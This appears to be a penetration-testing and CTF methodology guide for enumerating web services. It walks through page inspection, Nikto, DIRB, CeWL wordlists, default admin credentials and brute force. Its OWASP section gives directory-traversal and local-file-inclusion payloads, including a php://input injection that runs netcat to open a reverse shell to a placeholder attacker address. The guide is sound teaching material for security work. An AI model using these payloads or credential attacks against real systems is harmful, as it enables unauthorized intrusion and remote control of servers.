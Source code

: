 # Web Service Enumeration Flow Chart
Let's draw out recommended steps to take when we find a web service on a target system during CTF, or penetration testing. This can be found via NMAP scans or otherwise. I have anothewr file with tool-specific details [listed here](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Enumeration/HTTP/http-enumeration.md) that I recommend reading as well.
### Edit the /etc/hosts File
Setting the hostname with the IP address will allow you to make HTTP requests with the hostname to the target system. This is used in enumerating any virtual hosts / domains that the target system may be hosting. A single IP address can hosts many web sites by handliong the incoming HTTP request information and mapping the hostname to an area on the file system.

Edit the /etc/hosts file as so,
```
(TARGET IP ADDRESS)      (TARGET HOSTNAME)
E.g.:
10.10.10.10     somehost.somedomain
10.10.10.10     subdomain.somehost.somedomain
```
## 1. Browse to the Web App
First, go to the service using a web browser and view it with eyeballs/or if impaired using a text browser or `curl`. This will often present clues to frameworks or other services that may be employed by the target system. Remember, that during the enumertaion phase of any service, **leave no stone unturned.**
### View Page Sources
There are a few different ways to inspect a web application / web page.
1. Hit CTRL+U and analyze the source code of then entire rendered page.
2. Right click and inspect elements
This can often lead to clues as to the development process, leak info in comments, or, very rarely, leak credentials.
### Inspect all Images
Make sure to download and inspect all images from the site, especially if this is a CTF exercise. Use tools such as,
* binwalk
* steghide
* stegcracker
* strings
#### Reverse Google Image Search
Also, for more clues on what type of framework, web service, etc, is running on the target, it may benefit to do a simple reverse Google Image Search. Do this on any
* icons - favicon.ico
* thumbnails
* logos
* splash images
### Developer Tools
Hit F12 to enter the developer tools.
1. Look at the resources that are being accessed by the web site/web app.
2. Refresh the page and watch the network tab to view any extra, potentially unrendered, content.
### Look for Login Pages
If the web application has a login page. This can often lead to a foothold during the penetration test. Especially if we can find an administrative account.
#### SQL Injection Attempt
Tryin a few simple SQL Injection attempts on the page.
1. [Common SQL Injection techniques for login pages](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/Web/sql-injection-login-page.md)
2. Commonly used credentials
    1. admin:admin
    2. admin:
    3. admin:default
    4. admin:password
    5. administrator:administrator
    6. administrator:default
    7. administrator:
 #### Brute Force Attacks
 Next, we can try a brute force attack on the login page.
 1. Make sure that you try your best to enumerate a username. If none found, test default usernames such as "admin", "administrator", etc.
 2. Brute force attacks are lengthy. Run them in parallel to your work.
 3. Brute force attacks are lengthy. Try your best to enumerate words from the web aplpication to use as ammunition in the BF attack. Follow the [Generate Wordlists](#Generate_Wordlists) section below.
 ## 2. Scan the Web App
 Next, we will use a few tools to simply scan the web application.
 ### Nikto
 Nikto will provide information about the web service and web application. This scan may also provide use with very obvious web vulnerabilities for both a well.
 ```
 root@attacker-system:~# perl /infosec/www/nikto/program/nikto.pl -h (TARGET URL)
 ```
 ### DIRB
 A great way to enumerate files on the web server is to using a scanning tool such as DIRB. This tool should be used to scan for all suspected web application programming language types. E.g.: if the server is Apache, try PHP extensions for all file names in the DIRB common.txt wordlist.
 ```
 root@attacker-system:~# dirb http://(TARGET IP ADDRESS) -X .php
 ```
 1. Try many different wordlists besides the default `common.txt` wordlists. I have provided some here in this Grimoire, but you should also test some from the [SecLists/Discovery/Web-Content](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content) area as well.
 2. Also, try common used extensions and web service extensions. You also want to search for development archives or backups. 
    1. .config
    2. .cfc
    3. .jar
    4. .txt
    5. .zip
 3. Search for commonly used framework files, such as license.txt, readme.html, etc.
 ## 3. Generate Wordlists
 Using tools such as CeWL against the target web application and it's content can provide data that we can use to target credentials and brute-force style enumeration techniques.
```
root@attacker-system:~# ruby cew.rb http://(TARGET IP ADDRESS)/
CeWL 5.2 (Some Chaos) Robin Wood (robin@digi.ninja) (https://digi.ninja)
PwnLab
Intranet
Image
Hosting
... (SNIPPED) ...
```
These words work great against attempting a password brute force attack on the target server.
## 4. Check for Service Vulnerabilties
You can find the version of the web application server using 404 pages, HTTP headers, etc. For instance, we can see the version in the VulnHUB.com PwnLab instance by hitting http://(TARGET IP ADDRESS)/lol and view the following,
```
Apache/2.4.10 (Debian) Server at (TARGET IP ADDRESS) Port 80
```
We can also see this version in the HTTP response headers as,
```
Server: Apache/2.4.10 (Debian)
```
By right clicking in our browser on the site, choosing inspect element, clicking the Network tab and refreshing the page. Then select the index file in the bottom panel and view the headers on the right side of the developer tools box.

Use this version number to search exploit resources, such as [exploit-db.com](exploit-db.com) for known vulnerabilties.
## 5. OWASP Top 10 Project
Next, we want to attempt any of the (OWASP top 10)[https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project] web vulnerabilties for each input handler found on the web application.
1. **Directory Traversal** - [DotDotPwn](https://github.com/wireghoul/dotdotpwn) to attempt directory traversal
```
root@attacker-system:~# dotdotpwn -h (TARGET IP ADDRESS) -m http -f config.php
```
2. **SQL Injection** - [SQLMap](http://sqlmap.org/) can be used to test advanced SQL Injection
3. **File Inclusion and Command Injection** - Fuzz Web GET and POST parameters. You can also use **BurpSuite CE** in the *Intruder* tab to attempt an LFi Attack on the target system's HTTP requests parameters.
   1. `?file=foo.txt` may be vulnerable to local file includion (LFi)
   2. `?page=foo` may be vulnerable to local file inclusion (LFi)
   3. `?page=php://filter/convert.base64-encode/resource=index` - this payload will base64 encode the index.php file and return it in the DOM.
   4. `?page=php://input` with `<? system('nc -e /bin/bash (ATTACKER IP ADDRESS) (ATTACKER PORT)'); ?>` as POST data - command injection technique.
   5. `?url=http://someurl` may be vulnerable to remote file inclusion (RFi)
4. **Session Management** - Edit and fuzz cookies as described in [my cheat sheet here.](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/Web/cookie-fuzzing.md)
## 6. Burp Suite CE
Use the BurpSuite Community Edition to analyze all requests from the server. 
1. Turn on the proxy for Intercept in the BurpSuite CE window
2. Set the proxy in your web browser.
3. Make an HTTP request to multiple resources in the web application and analyze the results for more clues.
